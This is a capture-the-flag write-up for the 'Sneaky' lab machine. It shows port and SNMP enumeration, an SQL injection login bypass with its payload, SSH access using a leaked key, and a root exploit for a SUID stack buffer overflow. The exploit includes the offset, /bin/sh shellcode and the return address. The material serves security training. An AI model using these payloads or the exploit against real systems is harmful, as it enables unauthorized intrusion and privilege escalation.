




# Sneaky
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.20 --min-rate 10000           
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-30 21:49 BST
Warning: 10.10.10.20 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.20 (10.10.10.20)
Host is up (0.10s latency).
Not shown: 54464 filtered tcp ports (no-response), 6 filtered tcp ports (host-unreach), 11064 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 70.54 seconds

```
```
└─$ nmap -Pn -p80 -sC -sV 10.10.10.20 --min-rate 10000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-30 21:50 BST
Nmap scan report for 10.10.10.20 (10.10.10.20)
Host is up (0.099s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Under Development!
|_http-server-header: Apache/2.4.7 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.51 seconds
```
```
└─$ sudo nmap -Pn -sU --top-ports 10 10.10.10.20 --min-rate 10000
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-30 21:52 BST
Nmap scan report for 10.10.10.20 (10.10.10.20)
Host is up (0.16s latency).

PORT     STATE         SERVICE
53/udp   closed        domain
67/udp   open|filtered dhcps
123/udp  open|filtered ntp
135/udp  closed        msrpc
137/udp  closed        netbios-ns
138/udp  open|filtered netbios-dgm
161/udp  open          snmp
445/udp  closed        microsoft-ds
631/udp  open|filtered ipp
1434/udp open|filtered ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 1.35 seconds
```

- Web server


- `feroxbuster`
```
└─$ feroxbuster -u http://10.10.10.20 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -k

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.20
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET       10l       30w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      307c http://10.10.10.20/dev => http://10.10.10.20/dev/
200      GET      142l      758w    47908c http://10.10.10.20/underdev.gif
200      GET       11l       20w      183c http://10.10.10.20/
[####################] - 83s    53171/53171   0s      found:3       errors:0      
[####################] - 81s    26584/26584   330/s   http://10.10.10.20/ 
[####################] - 79s    26584/26584   335/s   http://10.10.10.20/dev/ 
```

- `snmpwalk`
```
└─$ onesixtyone 10.10.10.20 -c /usr/share/doc/onesixtyone/dict.txt 
Scanning 1 hosts, 50 communities
10.10.10.20 [public] Linux Sneaky 4.4.0-75-generic #96~14.04.1-Ubuntu SMP Thu Apr 20 11:06:56 UTC 2017 i686
```
```
└─$ snmpwalk -v 2c -c public 10.10.10.20 
SNMPv2-MIB::sysDescr.0 = STRING: Linux Sneaky 4.4.0-75-generic #96~14.04.1-Ubuntu SMP Thu Apr 20 11:06:56 UTC 2017 i686
...
IP-MIB::ipAddressSpinLock.0 = INTEGER: 1936614193
IP-MIB::ipAddressIfIndex.ipv4."10.10.10.20" = INTEGER: 2
IP-MIB::ipAddressIfIndex.ipv4."10.10.10.255" = INTEGER: 2
IP-MIB::ipAddressIfIndex.ipv4."127.0.0.1" = INTEGER: 1
IP-MIB::ipAddressIfIndex.ipv6."00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:01" = INTEGER: 1
IP-MIB::ipAddressIfIndex.ipv6."de:ad:be:ef:00:00:00:00:02:50:56:ff:fe:b9:64:2b" = INTEGER: 2
IP-MIB::ipAddressIfIndex.ipv6."fe:80:00:00:00:00:00:00:02:50:56:ff:fe:b9:64:2b" = INTEGER: 2
...
```

- `ipv6`
  - `ip -6 neigh` - alternative way to find `ipv6` address
```
└─$ nmap -6 -Pn -p- dead:beef:0000:0000:0250:56ff:feb9:642b --min-rate 10000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-15 19:43 BST
Nmap scan report for dead:beef::250:56ff:feb9:642b
Host is up (0.10s latency).
Not shown: 65454 filtered tcp ports (no-response), 79 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.66 seconds


```
```
└─$ nmap -6 -Pn -p22,80 -sC -sV dead:beef:0000:0000:0250:56ff:feb9:642b --min-rate 10000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-15 19:43 BST
Nmap scan report for dead:beef::250:56ff:feb9:642b
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 5d:5d:2a:97:85:a1:20:e2:26:e4:13:54:58:d6:a4:22 (DSA)
|   2048 a2:00:0e:99:0f:d3:ed:b0:19:d4:6b:a8:b1:93:d9:87 (RSA)
|   256 e3:29:c4:cb:87:98:df:99:6f:36:9f:31:50:e3:b9:42 (ECDSA)
|_  256 e6:85:a8:f8:62:67:f7:01:28:a1:aa:00:b5:60:f2:21 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: 400 Bad Request
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| address-info: 
|   IPv6 EUI-64: 
|     MAC address: 
|       address: 00:50:56:b9:64:2b
|_      manuf: VMware

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.42 seconds
                                            
```

## Foothold/User
- `http://10.10.10.20/dev/`



- If we send `test'` we receive error back indicating possible `sqli`



- Trying basic `sqli` payload works
  - `test' or 1=1;-- -`


- We have a  `ssh` key



- We can `ssh` as `thrasivoulos`
```
└─$ ssh thrasivoulos@dead:beef:0000:0000:0250:56ff:feb9:642b -i id_rsa 
Warning: Permanently added 'dead:beef::250:56ff:feb9:642b' (ED25519) to the list of known hosts.
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-75-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sun Oct 15 21:18:38 EEST 2023

  System load: 0.0               Memory usage: 4%   Processes:       175
  Usage of /:  40.9% of 3.32GB   Swap usage:   0%   Users logged in: 0

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Your Hardware Enablement Stack (HWE) is supported until April 2019.
Last login: Sun May 14 20:22:53 2017 from dead:beef:1::1077
thrasivoulos@Sneaky:~$ 
```

## Root
- I'll run `linpeas`
  - We have interesting `suid` file
```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                                                                            
-rwsr-xr-x 1 root root 67K Nov 24  2016 /bin/umount  --->  BSD/Linux(08-1996)                                                                                                                                                               
-rwsr-xr-x 1 root root 35K May  4  2017 /bin/su
-rwsr-xr-x 1 root root 87K Nov 24  2016 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 43K May  8  2014 /bin/ping6
-rwsr-xr-x 1 root root 30K May 15  2015 /bin/fusermount
-rwsr-xr-x 1 root root 39K May  8  2014 /bin/ping
-rwsrwsr-x 1 root root 7.2K May  4  2017 /usr/local/bin/chal (Unknown SUID binary!)
-rwsr-sr-x 1 libuuid libuuid 18K Nov 24  2016 /usr/sbin/uuidd
-rwsr-xr-- 1 root dip 316K Apr 21  2015 /usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)
-rwsr-sr-x 1 daemon daemon 46K Oct 21  2013 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 18K Nov 24  2015 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-xr-x 1 root root 18K May  8  2014 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 36K May  4  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 65K May  4  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 45K May  4  2017 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 72K Oct 21  2013 /usr/bin/mtr
-rwsr-xr-x 1 root root 31K May  4  2017 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 154K Oct 14  2016 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 44K May  4  2017 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-- 1 root messagebus 327K Dec  7  2016 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 482K Aug 11  2016 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 9.6K Nov 24  2015 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 5.4K Mar 27  2017 /usr/lib/eject/dmcrypt-get-device

```

- I'll grab the file
```
└─$ scp -6 -i id_rsa thrasivoulos@[dead:beef:0000:0000:0250:56ff:feb9:642b]:/usr/local/bin/chal ./
chal                                                                                                                                                                        100% 7301    23.8KB/s   00:00    
```

- Let's analyze
```
└─$ ltrace ./chal 
__libc_start_main(0x804841d, 1, 0xffdbc244, 0x8048450 <unfinished ...>
strcpy(0xffdbc022, nil <no return ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
```
└─$ ltrace ./chal AAAA
__libc_start_main(0x804841d, 2, 0xffeead44, 0x8048450 <unfinished ...>
strcpy(0xffeeab22, "AAAA")                                                                                                                        = 0xffeeab22
+++ exited (status 0) +++
```
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
- Let's find `offset`
```
└─$ msf-pattern_create -l 500
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq
```


```
└─$ msf-pattern_offset -q 0Am1
[*] Exact match at offset 362
```

- We can test by sending payload with `362` `A`s and `4` `B`s
```
└─$ python3 -c 'print("A"*362 + "BBBB")'
```


- Now we have to find an address of the buffer
  - We have to run it on the box to find the correct address since the box is 32-bit



- The address stays the same, we could choose any address within the buffer
  - We need the shellcode
  - I tried several shellcodes, this one worked
    - http://shell-storm.org/shellcode/files/shellcode-811.html
```
import sys

offset = 362
shell = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
nop = b"\x90" * (offset - len(shell))
eip = b"\x48\xf7\xff\xbf"
payload = nop + shell + eip

sys.stdout.buffer.write(payload)
```

- Use the following script to supply input in raw bytes
```
thrasivoulos@Sneaky:/tmp$ chal $(python3 exploit.py)
# id
uid=1000(thrasivoulos) gid=1000(thrasivoulos) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare),1000(thrasivoulos)
```